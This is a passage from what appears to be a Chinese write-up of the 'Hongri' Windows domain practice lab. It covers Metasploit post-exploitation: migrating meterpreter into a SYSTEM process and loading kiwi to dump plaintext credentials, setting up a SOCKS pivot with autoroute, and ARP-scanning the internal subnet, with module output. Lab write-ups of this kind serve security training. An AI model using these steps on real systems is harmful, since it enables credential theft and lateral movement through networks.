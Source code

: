 在msf中是使用kiwi来进行平替

![](https://img.l1uyun.one/红日靶场1-win域_image_29.png)

kiwi模块同时支持32位和64位的系统，但是该模块默认是加载32位的系统，所以如果目标主机是64位系统的话，直接默认加载该模块会导致很多功能无法使用。
所以如果目标系统是64位的，则必须先查看系统进程列表，然后将meterpreter进程迁移到一个64位程序的进程中，才能加载kiwi并且查看系统明文。如果目标系统是32位的，则没有这个限制

因为还需要system的权限,所以只能迁移到system用户的进程中

![](https://img.l1uyun.one/红日靶场1-win域_image_30.png)

获取到明文凭证
![](https://img.l1uyun.one/红日靶场1-win域_image_31.png)

### 搭建socks隧道
第一次使用msf来搭socks,之前都是在用frp
```bash
run post/multi/manage/autoroute        #加载MSF的autoroute模块，获取当前机器的所有网段信息
```
这里为啥要使用autoroute这个模块呢

![](https://img.l1uyun.one/红日靶场1-win域_image_32.png)

使用auxiliary/server/socks_proxy模块来实现socks

先background把现在的meterpreter会话挂起,然后加载这个模块

![](https://img.l1uyun.one/红日靶场1-win域_image_33.png)
查看jobs可以看到后台运行的socks进程

![](https://img.l1uyun.one/红日靶场1-win域_image_34.png)

### 主机探测
使用arp-scanner模块进行内网的扫描
```bash
use post/windows/gather/arp_scanner
set RHOSTS 192.168.52.0/24
sessions  # 查看session列表
set session 1
run

msf6 post(windows/gather/arp_scanner) > run

[*] Running module against STU1
[*] ARP Scanning 192.168.52.0/24
[+]     IP: 192.168.52.1 MAC 00:50:56:c0:00:01 (VMware, Inc.)
[+]     IP: 192.168.52.138 MAC 00:0c:29:3f:5d:a9 (VMware, Inc.)
[+]     IP: 192.168.52.143 MAC 00:0c:29:a7:c1:a8 (VMware, Inc.)
[+]     IP: 192.168.52.141 MAC 00:0c:29:6d:39:34 (VMware, Inc.)
[+]     IP: 192.168.52.255 MAC 00:0c:29:a7:c1:a8 (VMware, Inc.)
[+]     IP: 192.168.52.254 MAC 00:50:56:eb:1e:41 (VMware, Inc.)
[*] Post module execution completed
```
当前机器的ip是192.168.52.143,域控的是192.168.52.138
所以说目前内网里面有三台机器138,141,143
